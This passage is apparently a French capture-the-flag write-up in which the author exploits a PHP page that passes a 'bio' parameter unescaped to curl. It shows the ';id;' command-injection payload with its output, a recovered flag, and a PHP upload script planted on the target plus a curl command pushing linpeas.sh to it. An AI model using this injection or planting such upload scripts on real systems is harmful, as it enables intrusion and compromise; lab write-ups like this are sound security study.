 ```php
$url = "http://127.0.0.1/bios/" + $_GET["bio"]
```

On a vu via l'énumération plus tôt que `server-status` est actif sur le serveur Apache. Si on passe `../server-status` on peut alors afficher la page normalement accessible seulement depuis localhost.

Mon idée était qu'il y avait peut être une tache planifiée qui tape sur un path secret et qu'il fallait le récupérer de cette façon... mais rien n'est venu.

Il m'a fallut un petit moment pour comprendre que l'on était en réalité face à une vulnérabilité d'exécution de commande (RCE) toute bête qui exécute un `curl` sans que les données du paramètre ne soient échapés. Du coup en passant `;id;` au paramètre `bio` j'obtiens ceci en fin de la page HTML :

```html
<address>Apache/2.4.52 (Ubuntu) Server at 127.0.0.1 Port 80</address>
</body></html>
uid=1000(trinity) gid=1000(trinity) groups=1000(trinity)
</body>
</html>
```

Récupérer un shell est alors assez simple, mis à part qu'il faut utiliser le port 80 pour les connexions sortantes.

Avec ce compte `trinity` j'obtiens le premier flag :

```bash
trinity@04584549e707:/$ cat FLAG-1.txt 
Flag{'trinity-must-escape-from-the-matrix'}

See if you can find your way to root for the next flag.

https://img.buzzfeed.com/buzzfeed-static/static/2021-12/23/17/asset/4ebab251a02a/sub-buzz-1655-1640279523-1.jpg
```

Afin de simplifier la suite j'ai déposé via encodage / décodage base64 le script PHP suivant pour uploader mes fichiers :

```php
<?php
if(!empty($_FILES['uploaded_file']))
{
    $path = "/tmp/" . basename($_FILES['uploaded_file']['name']);
    if (move_uploaded_file($_FILES['uploaded_file']['tmp_name'], $path)) {
      echo "uploaded";
    } else{
        echo "error";
    }
}
?>
```

Il s'utilise de cette manière :

```bash
curl -F "uploaded_file=@linpeas.sh" http://192.168.242.130/bios/upload.php
```
